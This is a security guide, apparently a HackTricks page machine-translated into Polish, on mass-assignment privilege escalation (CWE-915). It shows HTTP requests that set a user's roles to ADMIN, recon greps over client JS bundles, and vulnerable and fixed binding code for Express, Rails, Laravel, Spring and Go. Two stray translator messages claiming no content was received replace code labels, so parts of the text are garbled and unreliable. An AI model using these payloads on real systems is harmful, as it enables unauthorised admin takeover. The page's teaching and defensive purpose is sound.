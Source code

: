 # Mass Assignment (CWE-915) – Privilege Escalation via Unsafe Model Binding

{{#include ../banners/hacktricks-training.md}}

Mass assignment (a.k.a. insecure object binding) występuje, gdy API/controller przyjmuje JSON dostarczony przez użytkownika i bezpośrednio wiąże go z modelem/encją po stronie serwera bez jawnej allow-listy pól. Jeśli uprzywilejowane właściwości takie jak roles, isAdmin, status lub pola ownership są możliwe do przypisania, każdy uwierzytelniony użytkownik może eskalować uprawnienia lub manipulować chronionym stanem.

To jest problem Broken Access Control (OWASP A01:2021), który często umożliwia vertical privilege escalation przez ustawienie roles=ADMIN lub podobne. Zwykle dotyczy frameworków, które obsługują automatyczne wiązanie ciał żądań do modeli danych (Rails, Laravel/Eloquent, Django ORM, Spring/Jackson, Express/Mongoose, Sequelize, Go structs, etc.).

## 1) Wykrywanie Mass Assignment

Szukaj endpointów self-service, które aktualizują twój własny profil lub podobne zasoby:
- PUT/PATCH /api/users/{id}
- PATCH /me, PUT /profile
- PUT /api/orders/{id}

Heurystyki wskazujące na mass assignment:
- Odpowiedź odsyła pola zarządzane przez serwer (np. roles, status, isAdmin, permissions) nawet jeśli ich nie wysłałeś.
- W paczkach klienta (client bundles) znajdują się nazwy/ID ról lub inne nazwy uprzywilejowanych atrybutów używane w aplikacji (admin, staff, moderator, internal flags), sugerujące możliwy schemat bindowalny.
- Backendowe serializery akceptują nieznane pola bez ich odrzucania.

Szybki przebieg testu:
1) Wykonaj normalną aktualizację tylko z bezpiecznymi polami i obserwuj całą strukturę odpowiedzi JSON (this leaks the schema).
2) Powtórz aktualizację, dołączając spreparowane pole uprzywilejowane w body. Jeśli odpowiedź utrzymuje zmianę, prawdopodobnie masz mass assignment.

Example baseline update revealing schema:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry"
}
```
Odpowiedź sugeruje pola uprzywilejowane:
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": null,
"status": "ACTIVATED",
"filters": []
}
```
## 2) Eksploatacja – eskalacja uprawnień przez Mass Assignment

Gdy poznasz bindable shape, dołącz właściwość privileged w tym samym żądaniu.

Przykład: ustaw roles na ADMIN w swoim zasobie użytkownika:
```http
PUT /api/users/12934 HTTP/1.1
Host: target.example
Content-Type: application/json

{
"id": 12934,
"email": "user@example.com",
"firstName": "Sam",
"lastName": "Curry",
"roles": [
{ "id": 1, "description": "ADMIN role", "name": "ADMIN" }
]
}
```
Jeśli odpowiedź utrzymuje zmianę roli, re-authenticate lub refresh tokens/claims, tak aby aplikacja wydała admin-context session i pokazała privileged UI/endpoints.

Uwagi
- Role identifiers and shapes są często enumerowane z client JS bundle lub API docs. Szukaj stringów jak "roles", "ADMIN", "STAFF", albo numerycznych role IDs.
- Jeśli tokens zawierają claims (np. JWT roles), zwykle wymagany jest logout/login lub token refresh, aby zrealizować nowe uprawnienia.


## 3) Client Bundle Recon for Schema and Role IDs

- Inspect minified JS bundles pod kątem role strings i model names; source maps mogą ujawnić DTO shapes.
- Szukaj arrays/maps ról, permissions, lub feature flags. Zbuduj payloads dopasowujące dokładne property names i nesting.
- Typowe wskazówki: role name constants, dropdown option lists, validation schemas.

Przydatne greps przeciwko pobranemu bundle:
```bash
strings app.*.js | grep -iE "role|admin|isAdmin|permission|status" | sort -u
```
## 4) Pułapki frameworków i bezpieczne wzorce

Luka powstaje, gdy frameworki wiążą req.body bezpośrednio z trwałymi encjami. Poniżej znajdują się typowe błędy i minimalne, bezpieczne wzorce.

**Node.js (Express + Mongoose)**

Wrażliwe:
```js
// Any field in req.body (including roles/isAdmin) is persisted
app.put('/api/users/:id', async (req, res) => {
const user = await User.findByIdAndUpdate(req.params.id, req.body, { new: true });
res.json(user);
});
```
Nie otrzymałem treści do przetłumaczenia. Proszę wklej zawartość pliku src/pentesting-web/mass-assignment-cwe-915.md (wraz z markdown), która mam przetłumaczyć na polski.
```js
// Strict allow-list and explicit authZ for role-changing
app.put('/api/users/:id', async (req, res) => {
const allowed = (({ firstName, lastName, nickName }) => ({ firstName, lastName, nickName }))(req.body);
const user = await User.findOneAndUpdate({ _id: req.params.id, owner: req.user.id }, allowed, { new: true });
res.json(user);
});
// Implement a separate admin-only endpoint for role updates with server-side RBAC checks.
```
**Ruby on Rails**

Niezabezpieczone (brak strong parameters):
```rb
def update
@user.update(params[:user]) # roles/is_admin can be set by client
end
```
Poprawka (strong params + brak uprzywilejowanych pól):
```rb
def user_params
params.require(:user).permit(:first_name, :last_name, :nick_name)
end
```
**Laravel (Eloquent)**

Podatne:
```php
protected $guarded = []; // Everything mass-assignable (bad)
```
Brakuje treści do przetłumaczenia. Proszę wklej zawartość pliku src/pentesting-web/mass-assignment-cwe-915.md lub fragment, który mam poprawić/przetłumaczyć.  
Dla przypomnienia: zachowam dokładnie składnię Markdown/HTML i nie będę tłumaczyć kodu, nazw technik, platform, linków ani tagów.
```php
protected $fillable = ['first_name','last_name','nick_name']; // No roles/is_admin
```
**Spring Boot (Jackson)**

Wzorzec podatny:
```java
// Directly binding to entity and persisting it
public User update(@PathVariable Long id, @RequestBody User u) { return repo.save(u); }
```
Poprawka: Zmapuj do DTO zawierającego tylko dozwolone pola i wymuś autoryzację:
```java
record UserUpdateDTO(String firstName, String lastName, String nickName) {}
```
Następnie skopiuj dozwolone pola z DTO do encji po stronie serwera i obsługuj zmiany ról tylko w handlerach dostępnych wyłącznie dla administratorów po przeprowadzeniu kontroli RBAC. Użyj @JsonIgnore dla uprzywilejowanych pól, jeśli to konieczne, i odrzucaj nieznane właściwości.

Go (encoding/json)
- Upewnij się, że uprzywilejowane pola używają json:"-" i waliduj za pomocą DTO struct, który zawiera tylko dozwolone pola.
- Rozważ użycie decoder.DisallowUnknownFields() oraz walidację invariantów po związaniu danych (role nie mogą się zmieniać w trasach samoobsługowych).

## Referencje

- [FIA Driver Categorisation: Admin Takeover via Mass Assignment of roles (Full PoC)](https://ian.sh/fia)
- [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes](https://cwe.mitre.org/data/definitions/915.html)

{{#include ../banners/hacktricks-training.md}}
